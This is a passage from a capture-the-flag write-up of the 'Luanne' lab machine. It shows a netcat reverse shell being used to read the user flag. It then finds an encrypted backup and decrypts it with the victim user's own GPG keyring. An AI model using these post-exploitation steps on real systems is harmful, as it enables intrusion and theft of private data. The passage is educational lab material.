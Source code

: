 ```bash
luanne$ ls
backups     devel       public_html user.txt
luanne$ id
uid=1000(r.michaels) gid=100(users) groups=100(users)
```

A shell as r.michaels spawns in the netcat listener.

### User Flag

---

I should now be able to collect the user flag:

```bash
luanne$ ls
backups      devel        public_html  user.txt
luanne$ cat user.txt
ea**************************ebc0
```

## r.michaels → root

---

Sudo does not work, and the BSD variant of sudo (doas) neither. So I started with the enumeration of the user home directory. I found backup, which contains an encrypted archive:

```bash
luanne$ ls
backups      devel        public_html  user.txt
luanne$ cd backups/
luanne$ ls
devel_backup-2020-09-16.tar.gz.enc
luanne$
```

I noticed that there are a lot more hidden files in the directory. I found a gnupg directory:

```bash
luanne$ ls -l .gnupg/
total 8
-rw-------  1 r.michaels  users   603 Sep 14  2020 pubring.gpg
-rw-------  1 r.michaels  users  1291 Sep 14  2020 secring.gpg
```

This is probably how the archive was encrypted. Let's try that out and decrypt it (using netpgp):

```bash
luanne$  netpgp --decrypt --output=/tmp/decrypt.tar.gz backups/devel_backup-2020-09-16.tar.gz.enc
signature  2048/RSA (Encrypt or Sign) 3684eb1e5ded454a 2020-09-14 
Key fingerprint: 027a 3243 0691 2e46 0c29 9f46 3684 eb1e 5ded 454a 
uid              RSA 2048-bit key <r.michaels@localhost>
luanne$ cd /tmp
luanne$ ls
decrypt.tar.gz
```
